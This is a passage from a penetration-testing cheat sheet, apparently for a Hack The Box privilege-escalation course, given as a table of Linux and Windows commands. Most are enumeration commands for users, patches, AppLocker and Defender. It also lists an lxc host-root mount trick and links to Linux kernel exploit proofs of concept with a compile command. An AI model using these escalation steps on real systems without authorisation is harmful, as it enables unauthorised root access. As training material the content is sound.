 | ``getcap -r / 2>/dev/null`` | Find applications with set recursive |

| ``lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true`` | Configure device. Source is source of container. Path is mount location |

| `(CVE-2021-22555)[https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555]` | Vulnerable kernel versions: 2.6 - 5.11 - `gcc -m32 -static exploit.c -o exploit` |

| `(CVE-2023-32233)[https://github.com/Liuk3r/CVE-2023-32233]` | Linux Kernal up to version 6.3.1 |

| ``xfreerdp /v:<target ip> /u:htb-student`` | RDP to lab target |

| ``ipconfig /all`` | Get interface, IP address and DNS information |

| ``arp -a`` | Review ARP table |

| ``route print`` | Review routing table |

| ``Get-MpComputerStatus`` | Check Windows Defender status |

| ``Get-AppLockerPolicy -Effective \| select -ExpandProperty RuleCollections`` | List AppLocker rules |

| ``Get-AppLockerPolicy -Local \| Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone`` | Test AppLocker policy |

| ``set`` | Display all environment variables |

| ``systeminfo`` | View detailed system configuration information |

| ``wmic qfe`` | Get patches and updates |

| ``wmic product get name`` | Get installed programs |

| ``tasklist /svc`` | Display running processes |

| ``query user`` | Get logged-in users |

| ``echo %USERNAME%`` | Get current user |

| ``whoami /priv`` | View current user privileges |

| ``whoami /groups`` | View current user group information |

| ``net user`` | Get all system users |

| ``net localgroup`` | Get all system groups |

| ``net localgroup administrators`` | View details about a group |
